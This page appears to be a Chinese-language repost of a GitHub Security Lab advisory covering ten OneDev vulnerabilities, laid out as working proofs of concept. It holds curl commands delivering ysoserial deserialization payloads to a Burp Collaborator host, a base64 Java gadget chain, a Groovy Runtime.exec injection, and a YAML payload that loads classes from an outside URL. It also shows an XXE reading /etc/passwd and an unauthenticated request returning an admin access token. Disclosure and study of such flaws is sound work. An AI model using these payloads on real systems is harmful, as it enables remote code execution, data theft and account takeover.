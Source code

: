 # OneDev 多个高危漏洞 （CVE-2021-21242~51）

> CVE-2021-21242
> 
> CVE-2021-21243
> 
> CVE-2021-21244
> 
> CVE-2021-21245
> 
> CVE-2021-21246
> 
> CVE-2021-21247
> 
> CVE-2021-21248
> 
> CVE-2021-21249
> 
> CVE-2021-21250
> 
> CVE-2021-21251



**1.AttachmentUploadServet上的预授权不安全反序列化**

**PoC：**

用于ysoserial使用URLDNS小工具生成探测有效负载。该小工具将发送一个DNS请求，我们可以对其进行拦截以证明反序列化攻击已成功。


```bash
curl -X POST http://localhost:6610/attachment_upload -H "File-Name: foo" -H "Attachment-Support: `java -jar /Users/pwntester/Dev/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://536mvpzmverok48wr06msp5du40uoj.burpcollaborator.net | base64`"
```

**2.在KubernetesResource上进行预认证不安全反序列化**

**PoC：**

```bash
java -jar ~/Dev/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://pzs6r9v6ryn8go4gnk26o91xqowgk5.burpcollaborator.net > deser_payload.bin`
curl -H "Content-Type:application/octet-stream" --data-binary @deser_payload.bin http://localhost:6610/rest/k8s/allocate-job-caches
```

```bash
java -jar ~/Dev/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://pzs6r9v6ryn8go4gnk26o91xqowgk5.burpcollaborator.net > deser_payload.bin
curl -H "Content-Type:application/octet-stream" --data-binary @deser_payload.bin http://localhost:6610/rest/k8s/report-job-caches
```

**3.通过Bean验证消息篡改进行预身份验证SSTI**

**PoC：**

```bash
${'test'.toUpperCase()}` -> `%24%7b%27%74%65%73%74%27%2e%74%6f%55%70%70%65%72%43%61%73%65%28%29%7d
```


```bash
curl -X GET -H "Content-Type: application/json" http://localhost:6610/rest/projects\?%24%7b%27%74%65%73%74%27%2e%74%6f%55%70%70%65%72%43%61%73%65%28%29%7d=bar
```

```bash
Caused by: org.glassfish.jersey.server.ContainerException: java.lang.NoSuchMethodError: javax.el.ELContext.notifyBeforeEvaluation(Ljava/lang/String;)
```

```bash
curl -X GET -H "Content-Type: application/json"  https://code.onedev.io/rest/projects\?%24%7b%27%74%65%73%74%27%2e%74%6f%55%70%70%65%72%43%61%73%65%28%29%7d=bar
Unexpected query params: [TEST] (path = ProjectResource.query.<cross-parameter>, invalidValue = [null, null, null, org.glassfish.jersey.server.internal.routing.UriRoutingContext@5b27a361])
```


**4：验证前任意文件上传**

```
String fileName = URLDecoder.decode(request.getHeader("File-Name"), StandardCharsets.UTF_8.name());
...
String attachmentName = attachmentSuppport.saveAttachment(fileName, request.getInputStream());
```

**5：验证前访问令牌泄漏**

**PoC：**

```bash
curl -X GET -H "Content-Type: application/json" http://localhost:6610/rest/users
Unauthorized access to user profiles
```


```bash
curl -X GET -H "Content-Type: application/json" http://localhost:6610/rest/users/1
{
  "id" : 1,
  "name" : "admin",
  "fullName" : "admin",
  "ssoInfo" : {
    "connector" : null,
    "subject" : "4a155bff-715d-45e9-8898-4152bb97d25e"
  },
  "email" : "alvaro@pwntester.com",
  "accessToken" : "JqnqWs6YsP8x3poNpnj6J6GFbvh0szli6lr5BWH8",
  "userProjectQueries" : [ ],
  "userIssueQueries" : [ ],
  "userIssueQueryWatches" : { },
  "issueQueryWatches" : { },
  "userPullRequestQueries" : [ ],
  "userPullRequestQueryWatches" : { },
  "pullRequestQueryWatches" : { },
  "userBuildQueries" : [ ],
  "userBuildQuerySubscriptions" : [ ],
  "buildQuerySubscriptions" : [ ]
}
```

**6：BasePage（AJAX）上的验证后不安全反序列化**

**PoC：**

```bash
POST /projects/my-app/blob?7-1.IBehaviorListener.0- HTTP/1.1
Host: localhost:6610
Content-Length: 389
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
Wicket-Ajax-BaseURL: projects/my-app/blob
Wicket-Ajax: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:6610
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:6610/projects/my-app/blob
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: JSESSIONID=node0cq7tdfxnza2v1nb58f7zwg7jj6.node0
Connection: close

data=rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3OAAKVW5pY2FzdFJlZgAPdG91Y2ggL3RtcC9mb29vAACFE//////C/CKmAAAAAAAAAAAAAAAAAAAAeA==
```

需身份验证。

**7：通过Groovy脚本注入执行验证后任意代码**

**PoC：**

```
foo") public String foo() {return "";}; static {Runtime.getRuntime().exec("touch /tmp/pwned1");} //
```

**8：验证后不安全Yaml反序列化**

```
version: 1
jobs:
- name: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://qgayzevwou8by0k3ochje4ebx23srh.burpcollaborator.net"]]]]
  image: asdasd
  commands:
  - asd
  retrieveSource: true
  cloneCredential: !DefaultCredential {}
  cpuRequirement: 250m
  memoryRequirement: 128m
  retryCondition: never
  maxRetries: 3
  retryDelay: 30
  timeout: 3600
```

**9：验证后外部实体扩展（XXE）**

**PoC：**

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

**10：ZipSlip任意文件上传**

```java
import io.onedev.commons.utils.TarUtils;
import java.io.FileInputStream;
import java.io.File;

public class UnTarTest {
  public static void main(String[] args) {
    try {
      FileInputStream is = new FileInputStream(new File("./zip-slip.tar"));
      TarUtils.untar(is, new File("./dest"));
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```



from：https://securitylab.github.com/advisories/GHSL-2020-214_223-onedev
